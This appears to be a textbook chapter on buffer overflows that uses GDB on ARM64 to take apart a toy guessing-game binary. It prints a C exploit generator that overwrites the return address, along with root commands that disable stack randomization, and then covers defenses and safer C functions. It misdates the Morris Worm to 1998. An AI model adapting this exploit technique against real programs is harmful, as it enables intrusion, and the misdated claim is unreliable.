

 


## 9.10. Real World: Buffer Overflow 

The C language does not perform automatic array bounds checking.
Accessing memory outside of the bounds of an array is problematic and
often results in errors such as segmentation faults. However, a clever
attacker can inject malicious code that intentionally overruns the
boundary of an array (also known as a **buffer**) to force the program
to execute in an unintended manner. In the worst cases, the attacker can
run code that allows them to gain **root privilege**, or OS-level access
to the computer system. A piece of software that takes advantage of the
existence of a known buffer overrun error in a program is known as a
**buffer overflow exploit**.


In this section, we use GDB and assembly language to fully characterize
the mechanics of a buffer overflow exploit. Prior to reading this
chapter we encourage you to explore the chapter discussing [GDB for
inspecting assembly
code](../C3-C_debug/gdb_assembly.html#_debugging_assembly_code).


### 9.10.1. Famous Examples of Buffer Overflow 

Buffer overflow exploits emerged in the 1980s and remained a chief
scourge of the computing industry through the early parts of the 2000s.
While many modern operating systems have protections against the
simplest buffer overflow attacks, careless programming errors can still
leave modern programs wide open to attack. Buffer overflow exploits have
recently been discovered in Skype^1^, Android^2^, Google Chrome^3^, and
others.


Here are some notable historic examples of buffer overflow exploits.


::: dlist

The Morris Worm

:   The Morris Worm^4^ was released in 1998 on ARPANet from MIT (to hide
    that it was written by a student at Cornell) and exploited a buffer
    overrun vulnerability that existed in the Unix finger daemon
    (`fingerd`). In Linux and other Unix-like systems, a **daemon** is a
    type of process that continuously executes in the background,
    usually performing clean-up and monitoring tasks. The `fingerd`
    daemon returns a user-friendly report on a computer or person. Most
    crucially, the worm had a replication mechanism that caused it to be
    sent to the same computer multiple times, bogging down the system to
    an unusable state. While the author claimed that the worm was meant
    as a harmless intellectual exercise, the replication mechanism
    enabled the worm to spread easily and made it difficult to remove.
    In future years, other worms would employ buffer overflow exploits
    to gain unauthorized access into systems. Notable examples include
    Code Red (2001), MS-SQLSlammer (2003), and W32/Blaster (2003).

AOL Chat Wars

:   David Auerbach^5^, a former Microsoft engineer, detailed his
    experience with a buffer overflow during his efforts to integrate
    Microsoft's Messenger Service (MMS) with AOL Instant Messenger in
    the late 1990s. Back then, AOL Instant Messenger (AIM) was *the*
    service to use if you wanted to instant message (or IM) friends and
    family. Microsoft tried to gain a foothold in this market by
    designing a feature in MMS that enabled MMS users to talk to their
    AIM \"buddies.\" Displeased, AOL patched their servers so that MMS
    could no longer connect to them. Microsoft engineers figured out a
    way for MMS clients to mimic the messages sent by AIM clients to AOL
    servers, making it difficult for AOL to distinguish between messages
    received by MMS and AIM. AOL responded by changing the way AIM sent
    messages, and MMS engineers duly changed their client's messages to
    once again match AIM's. This \"chat war\" continued until AOL
    started using a buffer overflow error *in their own client* to
    verify that sent messages came from AIM clients. Since MMS clients
    did not have the same vulnerability, the chat wars ended, with AOL
    as the victor.


### 9.10.2. A First Look: The Guessing Game 

To help you understand the mechanism of the buffer overflow attack, we
provide an executable of a simple program that enables the user to play
a guessing game with the program. Download the `secret` executable at
[this link](_attachments/secretARM64.tar.gz) and extract it using the
`tar` command:


    $ tar -xzvf secretARM64.tar.gz


In the following, we provide a copy of `main.c`
([main.c](_attachments/main.c)), the main file associated with the
executable:


```
#include <stdio.h>
#include <stdlib.h>
#include "other.h"

int endGame(void){
  printf("You win!\n");
  exit(0);
}

int playGame(void){
  int guess, secret, len, x=3;
  char buf[12];
  printf("Enter secret number:\n");
  scanf("%s", buf);
  guess = atoi(buf);
  secret=getSecretCode();
  if (guess == secret)
    printf("You got it right!\n");
  else{
    printf("You are so wrong!\n");
    return 1;
  }
  printf("Enter the secret string to win:\n");
  scanf("%s", buf);
  guess = calculateValue(buf, strlen(buf));
  if (guess != secret){
    printf("You lose!\n");
    return 2;
  }
  endGame();
  return 0;
}

int main(void) {
  int res = playGame();
  return res;
}
```


This game prompts the user to enter first a secret number and then a
secret string to win the guessing game. The header file `other.h`
contains the definition of the `getSecretCode` and `calculateValue`
functions, but it is unavailable to us. How then can a user beat the
program? Brute forcing the solution will take too long. One strategy is
to analyze the `secret` executable in GDB and step through the assembly
to reveal the secret number and string. The process of examining
assembly code to reveal knowledge of how it works is commonly referred
to as **reverse engineering**. Readers comfortable enough with GDB and
reading assembly should be able to use GDB to reverse engineer the
secret number and the secret string.


However, there is a different, sneakier way to win.


### 9.10.3. Taking a Closer Look (Under the C) 

The program contains a potential buffer overrun vulnerability at the
first call to `scanf`. To understand what is going on, let's inspect the
assembly code of the `main` function using GDB. Let's also place a
breakpoint at address 0x0000aaaaaaaaa92c, which is the address of the
instruction right before the call to `scanf` (placing the breakpoint at
the address for `scanf` causes program execution to halt *inside* the
call to `scanf`, not in `main`) and then use `ni` to advance forward one
instruction:


    Dump of assembler code for function playGame:
       0x0000aaaaaaaaa908 <+0>:   stp x29, x30, [sp, #-48]!
       0x0000aaaaaaaaa90c <+4>:   mov x29, sp
       0x0000aaaaaaaaa910 <+8>:   mov w0, #0x3
       0x0000aaaaaaaaa914 <+12>:  str w0, [x29, #44]
       0x0000aaaaaaaaa918 <+16>:  adrp    x0, 0xaaaaaaaaa000
       0x0000aaaaaaaaa91c <+20>:  add x0, x0, #0xac0
       0x0000aaaaaaaaa920 <+24>:  bl  0xaaaaaaaaa730 <puts@plt>
       0x0000aaaaaaaaa924 <+28>:  add x1, x29, #0x18
       0x0000aaaaaaaaa928 <+32>:  adrp    x0, 0xaaaaaaaaa000
       0x0000aaaaaaaaa92c <+36>:  add x0, x0, #0xad8
    => 0x0000aaaaaaaaa930 <+40>:   bl  0xaaaaaaaaa740 <__isoc99_scanf@plt>


Figure 1 depicts the stack immediately before the call
to `scanf`.


Figure 1. The call stack immediately before the call to scanf


Prior to the call to `scanf`, the first two arguments for `scanf` are
preloaded into registers `x0` and `x1`, respectively. The address of
array `buf` is stored at stack location `x29+0x18` (see
`<playGame+28>`).


Now, suppose that the user enters `1234567890` at the prompt. [Figure
2](#afterScanfa64) illustrates what the stack looks like immediately
after the call to `scanf` completes.





Figure 2. The call stack immediately after the call to scanf with input
1234567890


Recall that the hex values for the ASCII encodings of the digits 0 to 9
are 0x30 to 0x39, and that each stack memory location is eight bytes
long. The frame pointer for `main` is 56 bytes away from the stack
pointer. Readers tracing along can confirm the value of `x29` by using
GDB to print its value (`p x29`). In the example shown, the saved value
of `x29` is 0xffffffffeef0. The following command allows the reader to
inspect the 64 bytes (in hex) below register `sp`:


    (gdb) x /64bx $sp


This GDB command yields output that looks similar to the following:


    (gdb) x /64bx $sp
    0xffffffffeec0: 0xf0    0xee    0xff    0xff    0xff    0xff    0x00    0x00
    0xffffffffeec8: 0xf0    0xa9    0xaa    0xaa    0xaa    0xaa    0x00    0x00
    0xffffffffeed0: 0x10    0xef    0xff    0xff    0xff    0xff    0x00    0x00
    0xffffffffeed8: 0x31    0x32    0x33    0x34    0x35    0x36    0x37    0x38
    0xffffffffeee0: 0x39    0x30    0x00    0xaa    0xaa    0xaa    0x00    0x00
    0xffffffffeee8: 0x00    0x00    0x00    0x00    0x03    0x00    0x00    0x00
    0xffffffffeef0: 0x10    0xef    0xff    0xff    0xff    0xff    0x00    0x00
    0xffffffffeef8: 0xe0    0x36    0x58    0xbf    0xff    0xff    0x00    0x00


Each line represents one 64-bit address, or two 32-bit addresses. So,
the value associated with the 32-bit address 0xffffffffeedc is located
at the rightmost four bytes of the line showing 0xffffffffeed8.


+-----------------------------------+-----------------------------------+
|                                   |                          |
|                                   | Multibyte values are stored in    |
|                                   | little-endian order               |
|                                   | :::                               |
|                                   |                                   |
|                                   | ::: paragraph                     |
|                                   | In the preceding assembly         |
|                                   | segment, the byte at address      |
|                                   | 0xffffffffeec0 is 0xf0, the byte  |
|                                   | at address 0xffffffffeec1 is      |
|                                   | 0xee, the byte at address         |
|                                   | 0xffffffffeec2 is 0xff, the byte  |
|                                   | at address 0xffffffffeec3 is      |
|                                   | 0xff, the byte at address         |
|                                   | 0xffffffffeec4 is 0xff, and the   |
|                                   | byte at address 0xffffffffeec5 is |
|                                   | 0xff. However, the 64-bit *value* |
|                                   | at address 0xffffffffeec0 is in   |
|                                   | fact 0xffffffffeef0. Remember     |
|                                   | that because ARM64 is a           |
|                                   | [littl                            |
|                                   | e-endian](../C4-Binary/byte_order |
|                                   | .html#_integer_byte_order) |
|                                   | system by default, the bytes for  |
|                                   | multibyte values such as          |
|                                   | addresses are stored in reverse   |
|                                   | order.                            |
|                                   | :::                               |
+-----------------------------------+-----------------------------------+


In this example, the address for `buf` is located at address
0xffffffffeed8. Therefore, the following two addresses hold the bytes
associated with input string `1234567890`:


    0xffffffffeed8:    0x31    0x32    0x33    0x34    0x35    0x36    0x37    0x38
    0xffffffffeee0: 0x39    0x30    0x00    0xaa    0xaa    0xaa    0x00    0x00


The null termination byte `\0` appears in the third byte location at
address 0xffffffffeee2. Recall that `scanf` terminates all strings with
a null byte.


Of course, `1234567890` is not the secret number. Here is the output
when we try to run `secret` with input string `1234567890`:


    $ ./secret
    $ ./secret
    Enter secret number:
    1234567890
    You are so wrong!
    $ echo $?
    1


The `echo $?` command prints out the return value of the last executed
command in the shell. In this case, the program returned 1, because the
secret number we entered is wrong. Recall that by convention, programs
return 0 when there are no errors. Our goal going forward is to trick
the program to exit with a 0 return value, indicating that we won the
game.


### 9.10.4. Buffer Overflow: First Attempt 

Next, let's try typing in the string
`12345678901234567890123456789012345`:


    $ ./secret
    Enter secret number:
    12345678901234567890123456789012345
    You are so wrong!
    Bus error
    $ echo $?
    139


Interesting! Now the program crashes with a bus error (another type of
memory error), with return code 139. Figure 3 shows
what the call stack for `main` looks like immediately after the call to
`scanf` with this new input.


Figure 3. The call stack immediately after the call to scanf with input
12345678901234567890123456789012345


The input string is so long that it not only overwrote the saved `x29`
stored at address 0xeed8, but it spilled over into the return address
below the stack frame for `main`. Recall that when a function returns,
the program tries to resume execution at the address specified by the
return address. In this example, the program tries to resume execution
at address 0xffff00353433 after exiting `main`, which does not appear to
exist. So the program crashes with a bus error.


Rerunning the program in GDB (`input.txt` contains the input string
above) reveals this devilry in action:


    $ gdb secret
    (gdb) break *0x0000aaaaaaaaa934
    (gdb) run < input.txt
    (gdb) ni
    (gdb) x /64bx $sp
    0xffffffffeec0: 0xf0    0xee    0xff    0xff    0xff    0xff    0x00    0x00
    0xffffffffeec8: 0xf0    0xa9    0xaa    0xaa    0xaa    0xaa    0x00    0x00
    0xffffffffeed0: 0x10    0xef    0xff    0xff    0xff    0xff    0x00    0x00
    0xffffffffeed8: 0x31    0x32    0x33    0x34    0x35    0x36    0x37    0x38
    0xffffffffeee0: 0x39    0x30    0x31    0x32    0x33    0x34    0x35    0x36
    0xffffffffeee8: 0x37    0x38    0x39    0x30    0x31    0x32    0x33    0x34
    0xffffffffeef0: 0x35    0x36    0x37    0x38    0x39    0x30    0x31    0x32
    0xffffffffeef8: 0x33    0x34    0x35    0x00    0xff    0xff    0x00    0x00
    (gdb) n
    Single stepping until exit from function playGame,
    which has no line number information.
    You are so wrong!
    0x0000aaaaaaaaa9f0 in main ()
    (gdb) n
    Single stepping until exit from function main,
    which has no line number information.
    0x0000ffff00353433 in ?? ()


Notice that our input string blew past the stated limits of the array
`buf`, overwriting all the other values stored on the stack. In other
words, our string created a buffer overrun and corrupted the call stack,
causing the program to crash. This process is also known as **smashing
the stack**.


### 9.10.5. A Smarter Buffer Overflow: Second Attempt 

Our first example smashed the stack by overwriting the saved `x29`
register and return address for `main` with junk, causing the program to
crash. An attacker whose goal is to simply crash a program would be
satisfied at this point. However, our goal is to trick the guessing game
to return 0, indicating that we won the game. We accomplish this by
filling the call stack with data more meaningful than junk values. For
example, we could overwrite the stack so that the return address is
replaced with the address of `endGame`. Then, when the program attempts
to return from `main`, it will instead execute `endGame` instead of
crashing.


To find out the address of `endGame`, let's inspect `secret` again in
GDB:


    $ gdb secret
    (gdb) disas endGame
    Dump of assembler code for function endGame:
       0x0000aaaaaaaaa8ec <+0>:   stp x29, x30, [sp, #-16]!
       0x0000aaaaaaaaa8f0 <+4>:   mov x29, sp
       0x0000aaaaaaaaa8f4 <+8>:   adrp    x0, 0xaaaaaaaaa000
       0x0000aaaaaaaaa8f8 <+12>:  add x0, x0, #0xab0
       0x0000aaaaaaaaa8fc <+16>:  bl  0xaaaaaaaaa730 <puts@plt>
       0x0000aaaaaaaaa900 <+20>:  mov w0, #0x0
       0x0000aaaaaaaaa904 <+24>:  bl  0xaaaaaaaaa6d0 <exit@plt>


Observe that `endGame` starts at address 0x0000aaaaaaaaa8ec. [Figure
4](#finalExploita64) illustrates a sample exploit that forces `secret`
to run the `endGame` function.


Figure 4. A sample string that can force secret to execute the endGame
function


Essentially, there are 32 bytes of junk values followed by the return
address. Again, because ARM64 is a
[little-endian](../C4-Binary/byte_order.html#_integer_byte_order)
system by default, the bytes in the return address appear to be in
reverse order.


The following program illustrates how an attacker could construct the
preceding exploit:


```
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x00\x00" /*last 2 bytes of junk*/
"\xec\xa8\xaa\xaa\xaa\xaa\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```


The `\x` before each number indicates that the number is formatted as
the hexadecimal representation for a character. After defining
`ebuff[]`, the `main` function simply prints it out, character by
character. To get the associated byte string, compile and run this
program as follows:


    $ gcc -o genEx genEx.c
    $ ./genEx > exploit


To use `exploit` as input to `scanf`, it suffices to run `secret` with
`exploit`. To get the exploit to work on a Raspberry Pi, type the
following set of commands as root (we will explain what is going on
following the example):


    $ sudo su
    [sudo] password for pi:
    root@pi# echo "0" > /proc/sys/kernel/randomize_va_space
    root@pi# exit
    $


The `sudo su` command puts you in root mode on the Raspberry Pi. When
prompted for a password, use your password (we assume you have root
access to the Raspberry Pi). As soon as the password is entered, the
next set of commands are typed in root mode. Note that the command
prompt changes when a user is in root mode (it looks something like
`root@pi#`).


The `echo` command overwrites the contents of the file
`randomize_va_space` with the value 0. Next, the `exit` command returns
the user back to user mode.


Now, type the following command at the prompt:


    $ ./secret < exploit
    Enter secret number:
    You are so wrong!
    You win!


The program prints out \"You are so wrong!\" because the string
contained in `exploit` is *not* the secret number. However, the program
also prints out the string \"You win!\" Recall, though, that our goal is
to trick the program to return 0. In a larger system, where the notion
of \"success\" is tracked by an external program, it is often most
important what a program returns, not what it prints out.


Checking the return value yields:


    $ echo $?
    0


Our exploit works! We won the game!


### 9.10.6. Protecting Against Buffer Overflow 

The example we showed changed the control flow of the `secret`
executable, forcing it to return a zero value associated with success.
We had to accomplish this in a fairly wonky way due to stack protections
that ARM and GCC include to combat this particular type of attack.
However, buffer overflow exploits can do real damage on older systems.
Some older computer systems also *executed* bytes from stack memory. If
an attacker placed bytes associated with assembly instructions on the
call stack, the CPU would interpret the bytes as *real* instructions,
enabling the attacker to force the CPU to execute *any arbitrary code of
their choosing*. Fortunately, there are strategies that modern computer
systems employ to make it more difficult for attackers to run buffer
overflow exploits:


-   **Stack randomization**: The OS allocates the starting address of
    the stack at a random location in stack memory, causing the
    position/size of the call stack to vary from one run of a program to
    another. When we overwrote the `/proc/sys/kernel/randomize_va_space`
    file with a 0 value, we temporarily turned off stack randomization
    on the Raspberry Pi (this file returns to its original value on
    restart). Without turning off stack randomization, multiple machines
    running the same code would have different stack addresses. Modern
    Linux systems use stack randomization as a standard practice.
    However, a determined attacker can brute force the attack, by
    attempting to repeat attacks with different addresses. A common
    trick is to use a **NOP sled** (i.e., a large number of NOP
    instructions) before the actual exploit code. Executing the NOP
    instruction (`0x90`) has no effect, other than causing the program
    counter to increment to the next instruction. As long as the
    attacker can get the CPU to execute somewhere in the NOP sled, the
    NOP sled will eventually lead to the exploit code that follows it.
    Aleph One's writeup, *Smashing the Stack for Fun and Profit*^6^
    details the mechanism of this type of attack.

-   **Stack corruption detection**: Another line of defense is to try to
    detect when the stack is corrupted. Recent versions of GCC use a
    stack protector known as a **canary** that acts as a guard between
    the buffer and the other elements of the stack. A canary is a value
    stored in a nonwriteable section of memory that can be compared to a
    value put on the stack. If the canary \"dies\" during a program's
    execution, the program knows that it is under attack and aborts with
    an error message. For simplicity, we removed the canary from our
    `secret` executable by compiling it with the `fno-stack-protector`
    flag in GCC. However, a clever attacker can replace the canary
    during the course of the attack to prevent the program from
    detecting stack corruption.

-   **Limiting executable regions**: In this line of defense, executable
    code is restricted to only particular regions of memory. In other
    words, the call stack is no longer executable. However, even this
    defense can be defeated. In an attack utilizing **return-oriented
    programming** (ROP), an attacker can \"cherry-pick\" instructions in
    executable regions, and jump from instruction to instruction to
    build an exploit. There are some famous examples of this on-line,
    especially in video games^7^.


However, the best line of defense is always the programmer. To prevent
buffer overflow attacks on your programs, use C functions with **length
specifiers** whenever possible and add code that performs array bounds
checking. It is crucial that any defined arrays match the chosen length
specifiers. Table 1 lists some common \"bad\" C
functions that are vulnerable to buffer overflow, and the corresponding
\"good\" function to use (assume that `buf` is allocated 12 bytes):


+-----------------------------------+-----------------------------------+
| Instead of                        | Use                               |
+===================================+===================================+
| `gets(buf)`                       | `fgets(buf, 12, stdin)`           |
+-----------------------------------+-----------------------------------+
| `scanf("%s", buf)`                | `scanf("%12s", buf)`              |
+-----------------------------------+-----------------------------------+
| `strcpy(buf2, buf)`               | `strncpy(buf2, buf, 12)`          |
+-----------------------------------+-----------------------------------+
| `strcat(buf2, buf)`               | `strncat(buf2, buf, 12)`          |
+-----------------------------------+-----------------------------------+
| `sprintf(buf, "%d", num)`         | `snprintf(buf, 12, "%d", num)`    |
+-----------------------------------+-----------------------------------+

: Table 1. C Functions with Length Specifiers

The `secret2` binary
([secret2ARM64.tar.gz](_attachments/secret2ARM64.tar.gz)) no longer has
the buffer overflow vulnerability. The `playGame` function of this new
binary ([main2.c](_attachments/main2.c)) appears below:


```
int playGame(void){
  int guess, secret, len, x=3;
  char buf[12];
  printf("Enter secret number:\n");
  scanf("%12s", buf); //lengths specifier added here!
  guess = atoi(buf);
  secret=getSecretCode();
  if (guess == secret)
    printf("You got it right!\n");
  else{
    printf("You are so wrong!\n");
    return 1;
  }
  printf("Enter the secret string to win:\n");
  scanf("%12s", buf); //length specifier added here!
  guess = calculateValue(buf, strlen(buf));
  if (guess != secret){
    printf("You lose!\n");
    return 2;
  }
  endGame();
  return 0;
}
```


Notice that we added a length specifier to all calls of `scanf`, causing
the `scanf` function to stop reading from input after the first 12 bytes
are read. The exploit string no longer breaks the program:


    $ ./secret2 < exploit
    Enter secret number:
    You are so wrong!
    $ echo $?
    1


Of course, any reader with basic reverse-engineering skills can still
win the guessing game by analyzing the assembly code. If you haven't
tried to beat the program yet with reverse engineering, we encourage you
to do so now.


### References


1.  Mohit Kumar. [Critical Skype Bug Lets Hackers Remotely Execute
    Malicious
    Code](https://thehackernews.com/2017/06/skype-crash-bug.html). 2017.

2.  Tamir Zahavi-Brunner. [CVE-2017-13253: Buffer overflow in multiple
    Android DRM
    services](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/).
    2018.

3.  Tom Spring. [Google Patches 'High Severity' Browser
    Bug](https://threatpost.com/google-patches-high-severity-browser-bug/128661/).
    2017.

4.  Christopher Kelty. [The Morris
    Worm](https://limn.it/articles/the-morris-worm/) Limn Magazine,
    Issue 1. Issue 1, Systemic Risk. 2011.

5.  David Auerbach. [Chat Wars: Microsoft vs.
    AOL](https://nplusonemag.com/issue-19/essays/chat-wars/) NplusOne
    Magazine, Issue 19. Spring 2014.

6.  Aleph One. [Smashing the Stack for Fun and
    Profit](http://insecure.org/stf/smashstack.html). 1996.

7.  DotsAreCool. [Super Mario World Credit
    Warp](https://youtu.be/vAHXK2wut_I) (Nintendo ROP example). 2015.


